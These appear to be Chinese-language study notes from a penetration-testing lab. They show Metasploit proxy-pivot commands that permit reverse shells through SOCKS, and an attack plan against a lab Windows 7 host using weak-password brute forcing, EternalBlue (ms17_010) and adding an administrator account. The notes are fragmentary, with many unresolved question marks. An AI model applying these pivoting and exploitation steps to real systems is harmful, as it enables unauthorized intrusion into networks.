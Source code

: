 >---------------------------------
>  frpc: win版本  服务器填写47.-— 章老师演示时，47对应实验中的183.X网络，这种配置方法，实际上是正向代理 ???

>---------------------------------


##  msf 挂代理！ 【】


reverse allow true 开关 【】???
setg ??? 【】
 
setg Proxies socks4:xxx.xxx.xxx.xxx:44803 
kali本地启动metasploit，挂上代理，就可以对内网进行各种探测收集。

msf6 > setg Proxies socks5: 10.2.0.213 : 1888   #让msf所有模块的流量都通过此代理走。(setg全局设置)
Proxies => socks5: 10.2.0.213 : 1888 #让msf所有模块的流量都通过此代理走。(setg全局设置)
msf6 > setg ReverseAllowProxy true #允许反向代理，通过socks反弹shell，建立双向通道。(探测可以不设置
ReverseAllowProxy => true #允许反向代理，通过socks反弹shell，建立双向通道。(探测可以不设置



------------------------------------------------------------------


## 从kali用msf攻击主机 win7_weak / 192.168.23.12 /172:

win7-weak利用 ssh弱口令 ???  8080 
  PC1--3389弱口令爆破
有3个口令   ???
 ms17-010模块


思路：
**内网192有445端口**
【】与2.21的不同，与kali没有共同网段，无法直接用kali上的msf ???

2.21虽然有完全权限，但不是linux系统，没有msf工具 ???
 
没有3389，也没有密码，不能远程登录！


#### 192网段有445端口

auxiliary/scanner/smb/smb_ms17_010是永恒之蓝扫描模块，
exploit/windows/smb/ms17_010_eternalblue是永恒之蓝攻击代码


### 利用ms17_010开启3389端口 ???
【】exploit类别可以尝试添加管理员账号????!!!!

https://cloud.tencent.com/developer/article/1595615


msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMBws Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corrup
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corrup+